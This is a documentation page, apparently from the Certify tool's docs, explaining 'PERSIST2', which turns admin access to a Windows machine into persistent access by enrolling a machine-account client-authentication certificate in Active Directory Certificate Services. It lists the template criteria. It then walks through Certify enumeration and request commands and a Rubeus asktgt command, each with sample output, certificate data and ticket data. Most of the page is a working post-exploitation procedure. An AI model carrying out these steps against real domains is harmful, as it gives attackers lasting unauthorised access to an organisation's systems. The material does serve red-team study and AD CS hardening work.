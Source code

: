 ```yaml
---
title: 'PERSIST2 - Machine Persistence via Certificates'
description: 'Learn how to extend initial access to a machine into persistent access by requesting a client authentication certificate in the context of the machine account.'
icon: 'server'
sidebarTitle: 'PERSIST2 - Machine Persistence via Certificates'
---
```


PERSIST2 is a technique used to extend initial access to a machine into persistent access by requesting a client authentication certificate in the context of the machine account, which can be used for future authentication as the machine account. This requires administrative privileges on the system.

## Template Requirements

According to [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf), the following criteria comprise a suitable certificate template:

<Accordion title="Enterprise CA Enrollment Rights">
The enterprise CA grants enrollment rights to the machine account. Otherwise, the account would be unable to request any certificates from the CA.
</Accordion>

<Accordion title="Template Enrollment Rights">
The certificate template grants enrollment rights to the machine account. Otherwise, the account would be unable to request certificates based on the specific template.
</Accordion>

<Accordion title="Manager Approval Disabled">
The "manager approval" feature is disabled for the certificate template. Otherwise, a "CA Manager" would have to manually review and approve the certificate request.
</Accordion>

<Accordion title="Authorized Signature Disabled">
The "authorized signature" feature is disabled for the certificate template. Otherwise, an enrollment agent would need to sign the certificate request on behalf of the requester.
</Accordion>

<Accordion title="Client Authentication EKU">
The certificate template defines an Extended Key Usage (EKU) that enables client authentication:
- `Client Authentication` (`1.3.6.1.5.5.7.3.2`)
- `PKINIT Client Authentication` (`1.3.6.1.5.2.3.4`)
- `Smart Card Logon` (`1.3.6.1.4.1.311.20.2.2`)
- `Any Purpose` (`2.5.29.37.0`)
- `Subordinate CA` (No EKUs)
</Accordion>

## Enumeration

We can search for certificate templates with these conditions using the `enum-templates --filter-client-auth` command from Certify. For more information about the command and its parameters, please refer to the [Command Overview](./1-command-overview) page.

```diff
> Certify.exe enum-templates --filter-enabled --filter-client-auth --hide-admins

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

...

[*] Enabled certificate templates found using the current filter parameters:

    Template Name                         : Machine
    Enabled                               : True
    Publishing CAs                        : ca01.corp.local\CORP-CA01-CA
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    Enrollment Flag                       : AUTO_ENROLLMENT
+   Manager Approval Required             : False
+   Authorized Signatures Required        : 0
+   Extended Key Usage                    : Client Authentication, Server Authentication
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
+       Enrollment Rights           : CORP\Domain Computers           S-1-5-21-976219687-1556195986-4104514715-515
      Object Control Permissions

Certify completed in 00:00:01.7777410
```

Once we have identified a suitable certificate template that the machine account can enroll in, we can request a certificate based on the template using the `request` command from Certify.

<Info>
Note the use of the `--machine` parameter to request a certificate for the machine account rather than the current user account.
</Info>

```
> Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template Machine --machine

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Request a certificate
[*] Elevating to SYSTEM context for machine cert request

[*] Current user context    : NT AUTHORITY\SYSTEM
[*] No subject name specified, using current machine as subject

[*] Template                : Machine
[*] Subject                 : CN=WS01.corp.local

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 1

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:03.5329344
```

When the certificate has been issued, it can be used to persistently authenticate as the machine account using the [`asktgt`](/GhostPack/Rubeus-mdx/commands/ticket-requests/asktgt) command from [Rubeus](/ghostpack-docs/Rubeus-mdx/overview).

```
> Rubeus.exe asktgt /user:WS01$ /certificate:MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=WS01.corp.local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\WS01$'
[*] Using domain controller: 10.10.10.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGAjCCBf6gAwIBBaEDAgEWooIFFzCCBRNhggUPMIIFC6ADAgEFoQ8bDU1FR0FLRUsuTE9DQUyiIjAg
      ...

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  WS01$
  UserRealm                :  CORP.LOCAL
  StartTime                :  30/06/2025 15.32.19
  EndTime                  :  01/07/2025 01.32.19
  RenewTill                :  07/07/2025 15.32.19
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  1c0P/+z4mogj2vJl122GvA==
  ASREP (key)              :  B357DDA2405237F78276BB9DA9720749
```

<Warning>
The issued certificate will be able to authenticate for as long as is mentioned in the `Validity Period` attribute of the certificate template. In order to extend the persistence period, you need to abuse [PERSIST3 - Account Persistence via Certificate Renewal](./persist3-account-persistence-via-certificate-renewal).
</Warning>